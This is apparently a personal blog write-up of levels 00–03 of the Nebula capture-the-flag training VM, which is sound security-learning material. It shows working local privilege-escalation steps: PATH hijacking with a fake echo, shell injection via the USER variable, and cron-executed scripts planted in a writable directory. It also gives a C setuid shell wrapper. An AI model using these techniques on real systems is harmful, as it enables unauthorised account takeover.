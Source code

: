 Title: Exploit Education - Nebula Part 1
Date: 2020-09-05
Modified: 2020-09-05
Category: Learning
Tags: ctf, exploit, nebula
Summary:

# [Nebula](https://exploit.education/nebula/)

## Basics
Nebula VM has 20 levels. Each level can be accessed with `levelXX` username and the same password.

## [Level 00](https://exploit.education/nebula/level-00/)

#### Solution
```bash
find / -type f -user flag00 -perm -0400 2>/dev/null
```
Search for all files, in all directories, belonging to `flag00` user, with [setuid](https://en.wikipedia.org/wiki/Setuid). Redirect all "permission error" (stderr) messages to `/dev/null` discarding those messages.

#### Result
```bash
level00@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level00@nebula:~$ find / -type f -user flag00 -perm -0400 2>/dev/null
/bin/.../flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## [Level01](https://exploit.education/nebula/level-01/)

#### Solution
Program allows to execute arbitrary program due to `system` call for `echo`.
Let's create fake echo with to run `bash` session with `flag01` UID.

#### Result
```bash
level01@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level01@nebula:~$ cat > /tmp/echo << EOF
> #!/usr/bin/env bash
> bash
> EOF
level01@nebula:~$ chmod +x /tmp/echo
level01@nebula:~$ cd ~flag01/
level01@nebula:/home/flag01$ ./flag01
and now what?
level01@nebula:/home/flag01$ PATH=/tmp:$PATH ./flag01
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```

## [Level02](https://exploit.education/nebula/level-02/)

#### Solution
Program is reading `USER` variable, which can be provided by attacker.

#### Result
```bash
level02@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level02@nebula:~$ USER=";bash #" /home/flag02/flag02
about to call system("/bin/echo ;bash # is cool")

flag02@nebula:~$ getflag
You have successfully executed getflag on a target account
```


## [Level03](https://exploit.education/nebula/level-03/)

#### Solution
Cron is running script which is picking up content of `writable.d` directory. It is executing whatever is there. It means, that anything what is running via cron, will have the same permissions.

#### Result
```bash
level03@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level03@nebula:~$ cd ~flag03
level03@nebula:/home/flag03$ cat > writable.d/flag << EOF
> #!/usr/bin/env bash
> getflag > /tmp/flag.result
> EOF
level03@nebula:/home/flag03$ cat /tmp/flag.result
You have successfully executed getflag on a target account
```

#### Solution2
Prepare simple C program to gain bash access

#### Result2
```C
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);
  system("/bin/bash");
}
```
```bash
level03@nebula:/tmp$ cat > /home/flag03/writable.d/exploit.sh << EOF
> #!/usr/bin/env bash
> cp /tmp/exploit /home/flag03/exploitable
> chmod u+s /home/flag03/exploitable
> EOF
```

#### Mistakes
##### First
I tried to create copy of `exploit` program in `/tmp` directory. However, when I tried to run it, it didn't give me `flag03` user. After looking into `/etc/fstab` it became obvious:
```
flag03@nebula:/home/flag03$ cat /etc/fstab
overlayfs / overlayfs rw 0 0
tmpfs /tmp tmpfs nosuid,nodev 0 0
```
`tmpfs` has `nosuid` option. It means, that the nosuid mount option specifies that the filesystem cannot contain set userid files.

##### Second
When I found that `nosetuid` is preventing from running program from within `/tmp`, I decided to copy `exploit` to `/home/level03`. It failed, because default user running `writable.sh` wasn't `root` but `flag03`. Solution was to copy payload to `/home/flag03` directory.
